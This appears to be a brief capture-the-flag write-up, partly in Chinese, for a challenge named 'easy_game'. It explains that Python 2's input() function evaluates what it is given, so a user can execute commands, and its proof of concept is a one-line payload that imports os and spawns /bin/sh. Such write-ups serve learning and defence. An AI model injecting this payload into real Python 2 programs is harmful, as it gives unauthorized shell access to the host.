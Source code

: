 # easy_game
## 题目描述
I made an eye-diff between crypto-ezgame and misc-easygame and I found that the flag is not in the code file, which means i need to read flag in the system. Of course, I also found a lot of differences between the two challenges. For example, i have never made a challenge with python2🧛‍♂️
## 考点
python2的```input```函数存在命令执行
## poc
```python
__import__('os').system('/bin/sh')
```
